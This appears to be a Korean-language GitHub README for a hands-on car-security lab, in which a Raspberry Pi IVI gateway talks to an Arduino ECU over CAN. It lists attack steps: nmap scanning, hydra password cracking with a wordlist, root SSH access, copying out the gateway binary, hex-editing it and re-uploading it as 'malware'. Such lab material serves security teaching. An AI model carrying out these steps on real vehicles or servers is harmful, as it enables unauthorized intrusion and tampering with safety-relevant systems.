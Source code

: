 # SmartCar
## Project goal
Implementation of Smart-Car CAN protocol & Utility data for IVI(In-Vehicle Infotainment) gateway attack using vulnerable port.

## Practice Equipments
- **RPi**: IVI Gateway 역할, 자동차 외부 네트워크의 Gateway
- **Arduino**: ECU 제어 역할, 자동차 내부 시스템의 ECU 제어
- **CAN shield**: RPi ↔ Arduino간 CAN 프로토콜 통신 가능
- **Sensors**: Motor, Text LCD, LCD Monitor
- **Android**: Android 앱, SmartCar 조종 인터페이스 제공
- **SmartCar.pdf**: SmartCar 실습 방법 문서

## Architecture
![architecture](https://user-images.githubusercontent.com/20378368/105503161-9c1a7300-5d09-11eb-871d-fbd33bc41c54.PNG)

## IVI Gateway Attack
![attack](https://user-images.githubusercontent.com/20378368/105503603-24991380-5d0a-11eb-8a7a-1387fc79391d.png)
- **Step 1**: IVI Gateway Log 분석  
![step1](https://user-images.githubusercontent.com/20378368/105573332-1c8bb300-5da0-11eb-9b70-fdc469eea789.PNG)
```
- Android App ↔ IVI Gateway 통신 과정에서의 Log 분석
```
- **Step 2**: TCP Port Scanning
```
- Kali Linux 설치
- 설치 방법: https://hack-cracker.tistory.com/78
```
- **Step 3**: Password Cracking
```
- Android App ↔ IVI Gateway 통신 과정에서의 Port 분석
- nmap <IVI Gateway IP> -sS -sV -p <Port Number>
- ping <IVI Gateway IP> -c 5
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- hydra -l <ID> -P <PW Dictionary File Path> -V -f -o <Output Path> <Service://IP:Port>
```
- **Step 4**: root 권한으로 SSH 원격 접속
```
- ssh -l <ID> -p <Port> <IVI Gateway IP>
- Step 3에서 찾아낸 root password로 접속
```
- **Step 5**: IVI Gateway의 네트워크 상태 확인
```
- netstat -tnlp
- file /proc/<PID 번호>/exe
```
- **Step 6**: SSH를 이용한 IVI Gateway 바이너리 취득
```
- scp root@<IVI Gateway IP>:<iviGateway 파일 경로> <Kali Linux에 저장될 경로>
```

### Malware Injection
- **Step 1**: Hex Editor를 이용한 바이너리 수정  
![step2](https://user-images.githubusercontent.com/20378368/105573522-8ce70400-5da1-11eb-9e8d-0f6ef08e5c32.PNG)
```
- 명령어 부분에 의미 없는 값으로 변조 → 해당 기능 동작 X
- 명령어 부분에 다른 명령어 값으로 변조 → 해당 기능 대신 다른 기능 실행됨
```
- **Step 2**: SSH를 이용한 Malware Injection
```
- scp <Kali Linux에 저장된 경로> root@<IVI Gateway IP>:<iviGateway 파일 경로>
```
- **Step 3**: IVI Gateway 다시 시작
```
- ssh root@<IVI Gateway IP>
- init 6
```
